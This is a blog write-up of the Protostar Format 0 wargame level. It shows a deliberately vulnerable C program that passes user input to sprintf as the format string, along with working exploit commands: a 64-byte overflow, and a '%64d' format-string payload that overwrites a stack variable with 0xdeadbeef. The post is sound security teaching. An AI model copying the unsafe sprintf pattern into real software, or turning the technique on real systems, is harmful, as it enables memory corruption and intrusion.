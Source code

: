 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 0"
date: 2012-01-24T05:13:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


I'll be honest, I'm new to format string exploits.  I've been more experienced with stack overflows, and a little with heap overflows.  So hopefully this information is correct, as it's from my current understanding. 

<!-- more -->

[Protostar Format 0](http://exploit-exercises.com/protostar/format0) starts us off with the following vulnerable code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
 volatile int target;
 char buffer[64];

 target = 0;

 sprintf(buffer, string);

 if(target == 0xdeadbeef) {
  printf("you have hit the target correctly :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

Looking at this code, somehow we have to get the variable, "target", which is never set anywhere other than to "0", to equal "0xdeadbeef".  Luckily, the "target" variable is on the stack, right before the "buffer" variable.  That means, if we can overflow "buffer", it'll leak out into "target". I decided for my understanding, that I would modify the c source file a little, so I could see what was going on better.  I added in 3 additional printf statements.  (This is mainly because I wasn't smart enough to get gdb to tell me where "buffer" and "target" were in memory.) 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
        volatile int target;
        char buffer[64];

        target = 0;

        sprintf(buffer, string);

        printf("Target: %08x\n", target);
        printf("Address of target: %08x\n", &target);
        printf("Address of buffer: %08x\n", &buffer);

        if(target == 0xdeadbeef) {
                printf("you have hit the target correctly :)\n");
        }
}

int main(int argc, char **argv)
{
        vuln(argv[1]);
}
```

Now, when I execute my custom compiled version, it gives me useful information:

```
user@protostar:~$ ./format0_1
Target: 00000000
Address of target: bffff7bc
Address of buffer: bffff77c
```
Just to verify that there was no spacing after "buffer" and before "target", I took those 2 values, and did some math: 

```
user@protostar:~$ perl -e 'print 0xbffff7bc-0xbffff77c . "\n"'
64
```

Initially, I thought this looked a lot like a stack overflow, especially since it did work as one: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "A"x64 . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

This is cheating though, since this is to demonstrate format string exploitation, and the [Format 0](http://exploit-exercises.com/protostar/format0) page says specifically:

{% blockquote %}
"This level should be done in less than 10 bytes of input."
{% endblockquote %}

So grumbling that I was going to have to do extra work, I started reading about string format exploitation.  A great document was titled ["Exploiting Format String Vulnerabilities"](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf), by scut / team teso</a>. 

It was in this document, that I found that you can actually tell the c compiler to read a certain number of bytes into a format.  I had seen this done half a dozen times before, but never knew that's what it was doing.  For example: 

```
printf("Target: %08x\n", target);
```

Normally for a hex formatting, you would simply use "%x" as the placeholder.  Well, apparently if you use "%08x", it will format it with 8 hex characters.  This is so that when "target" is set to 0, it actually prints "0x00000000" instead of "0x0".  Very nice! 

The same works for other types, such as decimal ("%d").  Since in the c program, it's doing: 

```
sprintf(buffer, string);
```

With this code, "string" is the first argument you pass to the program.  Since sprintf won't stop until it reads a null byte (as in a null terminated string), I just formatted it to read 64 bytes, and then concatenated "deadbeef" in little endian to it: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "%64d" . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

You could also format it with the "%64d" not in the perl statement, but I don't think it looks as readable. 

```
user@protostar:/opt/protostar/bin$ ./format0 %64x`perl -e 'print "\xef\xbe\xad\xde"'`
```

So there you have it.  That's definitely under 10 bytes of input.  I still have room for 2 more bytes if I need.
